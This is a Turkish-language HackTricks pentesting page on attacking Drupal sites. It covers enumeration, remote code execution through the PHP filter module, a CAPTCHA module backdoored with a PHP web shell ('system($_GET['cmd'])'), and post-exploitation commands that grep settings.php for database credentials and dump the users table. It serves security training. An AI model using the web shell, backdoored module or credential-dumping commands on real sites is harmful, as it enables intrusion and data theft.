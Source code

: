 # Drupal

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi**]'ni (https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**]'in (https://opensea.io/collection/the-peass-family) bulunduğu koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Keşif

* **Meta**'yı kontrol edin
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal **içeriği düğümler kullanarak dizinler**. Bir düğüm herhangi bir şeyi içerebilir, örneğin bir blog yazısı, anket, makale vb. Sayfa URI'leri genellikle `/node/<düğüm kimliği>` şeklinde olur.
```bash
curl drupal-site.com/node/1
```
## Numaralandırma

Drupal varsayılan olarak **üç tür kullanıcıyı** destekler:

1. **`Yönetici`**: Bu kullanıcı Drupal web sitesi üzerinde tam kontrol sahibidir.
2. **`Doğrulanmış Kullanıcı`**: Bu kullanıcılar web sitesine giriş yapabilir ve izinlerine bağlı olarak makale ekleyebilir ve düzenleyebilir.
3. **`Anonim`**: Tüm web sitesi ziyaretçileri anonim olarak belirlenir. Varsayılan olarak, bu kullanıcılara yalnızca gönderileri okuma izni verilir.

### Sürüm

* `/CHANGELOG.txt` dosyasını kontrol edin.
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Drupal'ın daha yeni kurulumları varsayılan olarak `CHANGELOG.txt` ve `README.txt` dosyalarına erişimi engeller.
{% endhint %}

### Kullanıcı adı numaralandırma

#### Kayıt

_/user/register_ adresinde sadece bir kullanıcı adı oluşturmayı deneyin ve eğer ad zaten alınmışsa bildirim alırsınız:

![](<../../.gitbook/assets/image (325).png>)

#### Yeni şifre iste

Mevcut bir kullanıcı adı için yeni bir şifre isterseniz:

![](<../../.gitbook/assets/image (900).png>)

Mevcut olmayan bir kullanıcı adı için yeni bir şifre isterseniz:

![](<../../.gitbook/assets/image (304).png>)

### Kullanıcı sayısını al

_/user/\<number>_ adresine erişerek mevcut kullanıcı sayısını görebilirsiniz, bu durumda _/users/3_ adresi bulunamadı hatası döndürür:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Gizli sayfalar

**`/node/$` şeklinde bir Fuzz yapın, burada `$` bir numaradır** (örneğin 1 ile 500 arasında).\
Bu şekilde **gizli sayfalar** (test, dev) bulabilirsiniz ki bunlar arama motorları tarafından referans alınmamıştır.

#### Kurulu modüller bilgisi
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Otomatik
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### PHP Filtre Modülü ile

{% hint style="warning" %}
Drupal'ın **(8. sürümden önceki sürümlerinde)** eski sürümlerinde, bir yönetici olarak giriş yaparak **`PHP filtresi` modülünü etkinleştirmek** mümkündü, bu da "Gömülü PHP kodlarının değerlendirilmesine izin verir."
{% endhint %}

**Eklentinin php olarak yüklü olması gerekmektedir** (bunu kontrol etmek için _/modules/php_ adresine erişerek kontrol edin ve eğer **403** hatası alırsanız, **mevcut**, eğer **bulunamazsa**, o zaman **php eklentisi yüklü değil demektir**)

_Modüller_ -> (**Kontrol Et**) _PHP Filtresi_ -> _Yapılandırmayı Kaydet_

![](<../../.gitbook/assets/image (247) (1).png>)

Ardından _İçerik Ekle_'ye tıklayın -> _Temel Sayfa_ veya _Makale_ seçin -> _Gövdede php kabuk kodunu yazın_ -> _Metin biçiminde_ _PHP kodunu_ seçin -> _Önizleme_ seçin

![](<../../.gitbook/assets/image (335).png>)

Son olarak, sadece yeni oluşturulan düğüme erişin:
```bash
curl http://drupal-site.local/node/3
```
### PHP Filtre Modülünü Yükle

**8 ve sonraki sürümlerden itibaren**, [**PHP Filtre**](https://www.drupal.org/project/php/releases/8.x-1.1) **modülü varsayılan olarak yüklenmez**. Bu işlevselliği kullanabilmek için **modülü kendimiz yüklememiz gerekecek**.

1. Modülün en güncel sürümünü Drupal web sitesinden indirin.
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. İndirildikten sonra **`Yönetim`** > **`Raporlar`** > **`Kullanılabilir güncellemeler`** bölümüne gidin.
4. **`Göz at`**'a tıklayın, dosyayı indirdiğimiz dizinden seçin ve ardından **`Yükle`**'ye tıklayın.
5. Modül yüklendikten sonra **`İçerik`** üzerine tıklayarak **yeni bir temel sayfa oluşturun**, Drupal 7 örneğinde yaptığımız gibi. Yine, **`Metin biçimi` açılır menüsünden `PHP kodu`'nu seçtiğinizden emin olun**.

### Arka Kapılı Modül

Bir arka kapılı modül, **mevcut bir modüle bir kabuk ekleyerek oluşturulabilir**. Modüller drupal.org web sitesinde bulunabilir. [CAPTCHA](https://www.drupal.org/project/captcha) gibi bir modül seçelim. Aşağı doğru kaydırarak tar.gz [arşivi](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz) için bağlantıyı kopyalayın.

* Arşivi indirin ve içeriğini çıkarın.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* İçeriği olan bir **PHP web kabuğu** oluşturun:
```php
<?php
system($_GET["cmd"]);
?>
```
* Sonraki adım olarak, kendimize klasöre erişim sağlamak için bir **`.htaccess`** dosyası oluşturmamız gerekiyor. Bu, Drupal'ın **`/modules`** klasörüne doğrudan erişimi reddettiği için gereklidir.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Yukarıdaki yapılandırma, /modules içinde bir dosya istediğimizde / klasörü için kurallar uygulayacaktır. Bu dosyaları captcha klasörüne kopyalayın ve bir arşiv oluşturun.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Websiteye **yönetici erişimine** sahip olduğumuzu varsayarak, **`Yönet`** üzerine tıklayın ve ardından kenar çubuğunda **`Genişlet`** seçeneğine tıklayın. Daha sonra **`+ Yeni modül yükle`** düğmesine tıklayın ve yükleme sayfasına yönlendirileceksiniz, örneğin `http://drupal-site.local/admin/modules/install` Arkaplandan backdoor ekli Captcha arşivine göz atın ve **`Yükle`**'ye tıklayın.
* Yükleme başarılı olduktan sonra, komutları yürütmek için **`/modules/captcha/shell.php`** yoluna göz atın.

## Sonrası Sızma

### settings.php dosyasını okuyun
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Veritabanından Kullanıcıları Dökün
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Referanslar

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details>

<summary><strong>Sıfırdan kahraman olmaya kadar AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
